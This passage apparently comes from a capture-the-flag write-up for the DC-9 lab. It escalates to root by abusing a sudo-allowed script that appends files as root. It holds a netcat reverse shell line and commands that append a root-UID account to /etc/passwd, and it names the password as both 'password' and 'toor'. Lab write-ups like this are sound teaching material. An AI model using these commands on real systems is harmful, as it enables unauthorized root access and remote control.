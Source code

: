 I `su` to `fredf` account and then checked it's `sudo rights` and it's

![](images/dc9/sudo-right3.png)

We see we can run `/opt/devstuff/test/test`. So I executed that but I couldn't see any output or anything. Then I found file named `test.py` in `/opt/devstuff/test/` and it had the following code:

```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

We see that it take 2 arguments, first one is the file it reads and second one the file it rights to. Now the exploit here is that it's `appending` data to the script `as root`, meaning we can make a file that have something like `/bin/bash` or `nc -e /bin/sh [IP] [PORT]`. Also there are the following easy ways:

1.  Append to /etc/sudoers
2.  Append an entry to /etc/passwd

The best would be to add an entry to `/etc/passwd` with a new `root` user whose password would be `password`.

```bash
echo 'mzfr:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/hack
sudo ./test /tmp/hack /etc/passwd
su mzfr
Password: toor
```

The very first echo command makes a user name `mzfr` with password `toor`. Then we run the script as root to add that new entry from `/tmp/hack` to `/etc/passwd` and then we switch to that account.
